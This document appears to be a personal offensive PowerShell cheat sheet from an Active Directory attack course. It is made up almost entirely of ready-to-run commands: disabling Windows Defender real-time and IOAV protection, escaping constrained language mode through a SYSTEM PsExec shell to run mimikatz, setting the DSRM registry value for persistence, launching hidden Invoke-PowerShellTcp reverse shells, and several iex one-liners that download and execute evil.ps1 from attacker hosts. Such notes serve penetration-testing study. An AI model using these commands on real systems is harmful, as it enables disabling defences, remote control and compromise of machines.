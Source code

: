 # Powershell

## General/Troubleshooting
* `$PSVersionTable`
* Inexplicable failure? Try `-Verbose`
* `Get-Member` to investigate object structures
* `. .\PowerUp.ps1` loads file and makes its functions available in current scope
* `$ExecutionContext.SessionState.LanguageMode` -> FullLanguage or ConstrainedLanguage. In constrained mode, many features are restricted. No COM obj, limited .NET types, etc). Can overcome this by starting shell as SYSTEM (`psexec -s`) if you are local admin `.\PsExec.exe \\dcorp-adminsrv -s powershell` Note: Can also run programs blocked by GPO (eg `mimikatz.exe`)when in SYSTEM shell 
* Avoid AV 
  * `Set-MpPreference -DisableIOAVProtection $true`
  * `Set-MpPreference -DisableRealtimeMonitoring $true`
* Avoid AppLocker restrictions
  * `Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections`
* Interact with Registry
  * `Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\"`
  * `Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2`
  * `New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD`
* Run command in background (like bash `&`)
  * `Start-Job -ScriptBlock { . C:\AD\Tools\Invoke-PowerShellTcp.ps1; Invoke-PowerShellTcp -Reverse 127.0.0.1 -Port 3333}`
  * NB `Start-Job` spawns a semi-separate session. Must use full paths, import libraries even if they are already in current session. **Job will die when powershell window is closed**.
  * `Start-Process powershell.exe  "-c",". c:\ad\tools\Invoke-PowerShellTcp.ps1; Invoke-PowerShellTcp -Reverse 127.0.0.1 -Port 3333" -WindowStyle hidden` **Process survives closing of current powershell window**
<hr/>

## Download and execute
```powershell
iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1') 
```
```powershell
# NB IE-based method is futzy - IE COM object members seem to depend on IE version...
$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1 ');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response
```
```powershell
# Works with IE11
$ie=New-Object -ComObject InternetExplorer.Application; $ie.visible=$False; $ie.navigate('http://192.168.231.1/test.ps1');sleep 5;
$response = ($ie.Application.document.getElementsByTagName('body') | select innerText);
$ie.quit(); iex $response.innerText;
```
```powershell
iex (iwr 'http://192.168.230.1/evil.ps1')  # PSv3 onwards
```
```powershell
$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex $h.responseText
```
```powershell
$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
iex ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```
```powershell
iex(gc -raw \\172.16.100.32\share\callme.ps1)
```
```powershell
```